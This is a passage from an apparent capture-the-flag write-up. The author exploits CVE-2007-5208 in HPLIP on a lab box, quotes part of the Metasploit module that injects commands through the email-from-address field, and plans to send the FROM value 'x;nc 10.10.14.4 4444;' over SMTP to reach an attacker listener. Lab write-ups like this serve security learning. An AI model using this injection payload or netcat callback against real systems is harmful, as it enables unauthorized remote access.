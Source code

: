 `dnsmasq`, `postfix`, and `postmaster` make sense. But what's this `hplip`?

Googling this username showed that it is the user for "[HP's Linux Imaging and Printing software (HPLIP)](https://developers.hp.com/hp-linux-imaging-and-printing)". Ok, it's a driver. Drivers aren't always very secure - maybe this one isn't?

Checking searchsploit revealed something juicy. Maybe it'll work:

![searchsploit hplip](searchsploit%20hplip.png)

I looked up the [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-5208). This definitely might be applicable for this box:

> hpssd in Hewlett-Packard Linux Imaging and Printing Project (hplip) 1.x  and 2.x before 2.7.10 allows context-dependent attackers to execute  arbitrary commands via shell metacharacters in a from address, which is  not properly handled when invoking sendmail.

Naturally, HPLIP is not exposed to the internet right now, so running this exploit through metasploit did not work. However, from the CVE description it sounds like maybe this could work by interacting with smtp over telnet instead.

Here is an excerpt from the exploit code ``linux/remote/16837.rb``:

```ruby
                connect

                #cmd = "nohup " + payload.encoded
                cmd = payload.encoded

                username = 'root'
                toaddr = 'nosuchuser'

                # first setalerts
                print_status("Sending 'setalerts' request with encoded command line...")
                msg = "username=#{username}\n" +
                        "email-alerts=1\n" +
                        #"email-from-address=`#{cmd}`\n" +
                        "email-from-address=x;#{cmd};\n" +
                        "email-to-addresses=#{toaddr}\n" +
                        "msg=setalerts\n"
                sock.put(msg)

                # next, the test email command
                print_status("Sending 'testemail' request to trigger execution...")
                msg = "msg=testemail\n"
                sock.put(msg)
```

Ok, so maybe I can telnet to the smtp server, and try sending an email with a malformed FROM address. Specifically, I'll send it from ``x;nc 10.10.14.4 4444; `` (after setting up a netcat listener on my attacker machine). If we get a response, it worked.
